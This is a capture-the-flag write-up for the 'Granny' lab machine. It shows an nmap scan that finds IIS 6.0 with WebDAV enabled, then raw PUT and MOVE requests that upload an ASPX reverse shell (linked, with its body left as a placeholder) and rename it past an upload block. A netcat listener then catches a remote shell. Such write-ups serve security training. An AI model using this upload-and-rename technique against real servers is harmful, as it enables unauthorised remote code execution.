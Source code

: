 # Granny

## Information Gathering
10.10.10.15

## Enumeration and Scanning
Scanning the only given host:<br>
```bash
# Nmap 7.92 scan initiated Mon Jan  3 23:49:56 2022 as: nmap -sC -sV -oN nmap/granny.nmap 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.030s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Tue, 04 Jan 2022 05:04:55 GMT
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan  3 23:50:08 2022 -- 1 IP address (1 host up) scanned in 12.15 seconds
```
When configuring a web server you really only ever want the GET and POST HTTP methods. Anything else is considered unecessary unless you REALLY need it.<br>
The HTTP method PUT allows for arbitrary file upload. I am potentially able to upload a reverse shell/web shell. Because this is a Microsoft IIS httpd 6.0 WebServer it is most likely that ASPX will be the file format I will use to gain remote code execution.<br>
I use <a href="https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx">this</a> web shell. I also use BurpSuite to create my custom HTTP header.
```bash
PUT /shell.aspx HTTP/1.1
Host: 10.10.10.15
Content-Length: 15968

[ASPX_SCRIPT_HERE]
```
This returns a 403 - Forbidden error code because I am not allowed to upload executable files directly. Fortunately, there is another HTTP header verb that can be used. MOVE allows for the renaming of files hosted on webserver. Uploading "shell.aspx" as "shell.txt" and then using MOVE to rename the file to the proper extension yields a reverse shell.<br>
Start the listener:<br>
```bash
nc -lnvp 8888
```
PUT the file:<br>
```bash
PUT /shell.txt HTTP/1.1
Host: 10.10.10.15
Content-Length: 15968

[ASPX_SCRIPT_HERE]
```
MOVE the file:<br>
```bash
MOVE /shell.txt HTTP/1.1
Host: 10.10.10.15
Destination: http://10.10.10.15/shell.aspx
```
And a reverse shell is caught!<br>
```bash
connect to [10.10.14.122] from (UNKNOWN) [10.10.10.15] 1031
Spawn Shell...
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```